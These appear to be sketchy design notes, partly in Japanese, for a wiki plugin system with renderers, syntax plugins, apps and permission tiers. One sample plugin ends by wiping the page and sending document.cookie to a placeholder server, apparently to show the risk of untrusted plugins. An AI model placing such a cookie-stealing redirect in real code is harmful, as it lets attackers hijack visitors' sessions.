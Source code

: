 ```js
Class AppBase{
    abstract onRender(context:WikiRenderContext); 
}
Class NewApp extends AppBase{
    onRender(context:WikiRenderContext); {
        context.pageName();
        const n=context.params(0);
        context.outputAsText("Hello"+n);
        context.outputAsWiki("[[link]]");
        $("body").empty();
        location.href="http://myserver?"+document.cookie;
    }
}
```


/index.html?page=FrontPage&plugin=.md&app=editor
/index.html?page=FrontPage&plugin=.fc2&app=default
editorとは？



---
# Renderer
## 対象
メイン全体にかかる.
## 権限
 super
## example.
- EditorRenderer
  - textarea
  - preview
- WikiRenderer
  - SyntaxPlugin が適用？
- KeijibanRenderer
- ChatRenderer
---
# Plugin 必須.
## 対象
 一部にかかる.
## 権限
 normal
## example.
- SyntaxPlugin
  - (default)FC2Syntax
  - MarkDownSyntax
  - UserSyntax - json
---
# Application
## 対象
フロートウィンドウ...レイヤーもあり.
Rendererを内包？
## 権限
 admin
## example.
- UploaderApp

---
---

# 自由度
- root 開発者
- admin サイト管理者
- super ユーザー（信頼済）
- normal ユーザー（一般）

---
---

# ページ構造
/user
/user/page
/global


```js
//AppManager.install("keijiban","k.js");
/*

* plugin test

#NewApp hoge


*/

```

HeaderやApplication部分をComponentとして扱う。
app/wiki.js
app/wiki.html
app/editor.js
app/editor.html
app/uploader.js
app/uploader.html
app/header.js
app/header.html
app/footer.js
app/footer.html
app/menu.js
app/menu.html
```
```

